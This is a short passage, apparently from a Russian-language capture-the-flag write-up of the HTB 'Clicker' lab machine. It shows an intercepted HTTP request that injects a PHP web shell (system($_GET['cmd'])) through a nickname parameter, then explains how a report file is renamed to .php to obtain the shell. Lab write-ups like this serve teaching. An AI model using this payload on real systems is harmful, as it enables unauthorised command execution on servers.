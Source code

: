 ```sh
GET /save_game.php?clicks=12200000&level=30000&nickname=%3c%3fphp+system%28%24%5fGET%5b%27cmd%27%5d%29%3b+%3f%3e HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=1eu61mgc7vb29k0itll808e09g
Upgrade-Insecure-Requests: 1

```

![plot](./screens/code-injection.png)

Видим, что в поле nickname протащился php код, формируем отчет и перехватываем его, заменив расширение на php и получаем файл с веб-шеллом
